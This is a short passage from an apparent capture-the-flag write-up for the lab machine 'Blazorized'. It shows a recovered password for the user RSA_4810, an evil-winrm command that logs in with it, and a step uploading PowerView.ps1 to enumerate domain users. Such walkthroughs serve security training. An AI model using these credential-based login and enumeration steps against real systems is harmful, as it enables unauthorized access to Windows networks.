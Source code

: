 password: `(Ni7856Do9854Ki05Ng0005 #)`

![Image](/assets/img/post/blazorized/37.png)

Use evil-winrm for login as RSA_4810:
```javascript
sudo evil-winrm -i blazorized.htb -u RSA_4810 -p '(Ni7856Do9854Ki05Ng0005 #)'
```

### RSA_4810

![Image](/assets/img/post/blazorized/38.png)

Use the PowerView.ps1 and upload to RSA_4810 for use Get-NetUser command

![Image](/assets/img/post/blazorized/39.png)
